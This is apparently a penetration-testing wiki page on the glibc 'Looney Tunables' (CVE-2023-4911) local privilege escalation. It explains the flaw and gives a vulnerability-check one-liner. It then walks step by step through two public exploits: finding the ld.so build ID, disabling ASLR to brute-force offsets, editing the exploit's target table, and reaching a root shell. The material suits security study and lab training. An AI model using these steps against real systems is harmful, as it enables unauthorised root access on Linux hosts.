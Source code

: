 ```yaml
---
description: CVE-2023-4911
---
```


# Looney Tunables

## Theory

CVE-2023-4911 (Looney Tunables) is a buffer overflow vulnerability in GNU C Library’s dynamic loader’s,  known as `ld.so`, when processing the GLIBC\_TUNABLES environment variable. This issue could allow a local attacker to use maliciously crafted GLIBC\_TUNABLES environment variables when launching binaries with SUID permission to execute code with elevated privileges.

This vulnerability was introduced in **glibc version 2.34** through commit 2ed18c. The vulnerability affects recent versions of major Linux distributions such as **RHEL, Ubuntu, Fedora , Debian, Amazon Linux, Gentoo** and **any other distribution that uses glibc**.

The vulnerability impacts major Linux distributions, including:&#x20;

* Fedora 37 and 38
* Ubuntu 22.04 and 23.04
* Debian 12 and 13

### Technicals details

Whenever you execute an ELF file that depends on shared libraries  (`.so` files), the operating system will need to load such libraries and link them to your executable. In Linux systems, this is normally managed by `ld.so`, an executable prepackaged as part of the `glibc` library.



## Practice

{% tabs %}
{% tab title="Enumerate" %}
To test directly whether the target is vulnerable, we can use the following command (vulnerable if there is a segmentation error):

```bash
$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

If glibc version is **greater or equal than 2.34**, target may be vulnerable

```bash
$ ldd --version
ldd (Ubuntu GLIBC 2.27-3ubuntu1.6) 2.27
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Or we can retreive the version of glibc using the following C++ code

{% code title="glibc.cpp" %}
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <gnu/libc-version.h>

int main(int argc, char *argv[])
{
    // Print glibc version
    printf("GNU libc version: %s\n", gnu_get_libc_version());
    exit(EXIT_SUCCESS);
}
```
{% endcode %}

Compile the above code using the following command:

```bash
g++ -std=c++11 glibc.c -o glibc
```

And execute it

```bash
./glibc
GNU libc version: 2.31
```
{% endtab %}

{% tab title="Exploit - 1" %}
Using [gnu-acme.py](https://haxx.in/files/gnu-acme.py) (python) from bl4sty, we can abuse CVE-2023-4911 and easily **adapt it to different ld.so build versions**.

If the build identifier of your ld.so target matches one of the script's targets. The exploit will work straight away.

```
python3 gnu-acme.py
```

If not, we have to find usable offsets for the ld.so build id. First you will have to find the target build identifier.

```bash
# Method 1: run gnu-acme.py
$ python3 gnu-acme.py
[...]
error: no target info found for build id b7ea093065488e439cf8ff6bc8bc545f5e1717c7

# Method 2: with native tools
$ readelf -n $(which ld.so) | grep "Build ID" | awk '{print $NF}' | xxd -r -p | tail -c 20 | xxd -p -c 20
b7ea093065488e439cf8ff6bc8bc545f5e1717c7
```

Now, on a similar environement (obviously with the same ld.so build version), disable ASLR and run gnu-acme.py. It will find usable offsets.

```bash
# On similar environement as the target
## Disable ASLR (as root)
echo 0 > /proc/sys/kernel/randomize_va_space

## Run gnu-acme.py
python3 gnu-acme.py
[...]
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 620
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 621
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 622
found working offset for ld.so 'b7ea093065488e439cf8ff6bc8bc545f5e1717c7' -> 623
```

Take one of the working offset and add it to the TARGETS array of the gnu-acme.py script

<pre class="language-python"><code class="lang-python">TARGETS = {
    "69c048078b6c51fa8744f3d7cff3b0d9369ffd53": 561,
    "3602eac894717d56555552c84fc6b0e4d6a4af72": 561,
<strong>    "b7ea093065488e439cf8ff6bc8bc545f5e1717c7": 620,
</strong>    "a99db3715218b641780b04323e4ae5953d68a927": 561,
    "a8daca28288575ffc8c7641d40901b0148958fb1": 580,
    "61ef896a699bb1c2e4e231642b2e1688b2f1a61e": 560,
    "9a9c6aeba5df4178de168e26fe30ddcdab47d374": 580,
    "e7b1e0ff3d359623538f4ae0ac69b3e8db26b674": 580,
    "956d98a11b839e3392fa1b367b1e3fdfc3e662f6": 322,
}
</code></pre>

Now, on the target run exploit again !&#x20;

```bash
$ python3 gnu-acme.py
[...]
** ohh... looks like we got a shell? **
whoami
root
```
{% endtab %}

{% tab title="Exploit - 2" %}
Using [this exploit](https://github.com/leesh3288/CVE-2023-4911) from leesh3288, we can abuse CVE-2023-4911.

{% hint style="info" %}
Code has been tested on Ubuntu 22.04.3 with glibc version `2.35-0ubuntu3.3`.&#x20;
{% endhint %}

&#x20;First we need to execute the Python script to generate the malicious libc.so.6

```bash
python3 gen_libc.py
```

Compile the exploit

```shell-session
gcc -o exp exp.c
```

Finally, you can launch the exploit and be patient since the exploitation may take some time (5 to 20 mins).

```bash
$ ./exp
try 100
try 200
[snip]
try 3700
try 3800
# whoami
root
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt" %}

{% embed url="https://tryhackme.com/room/looneytunes" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so" %}
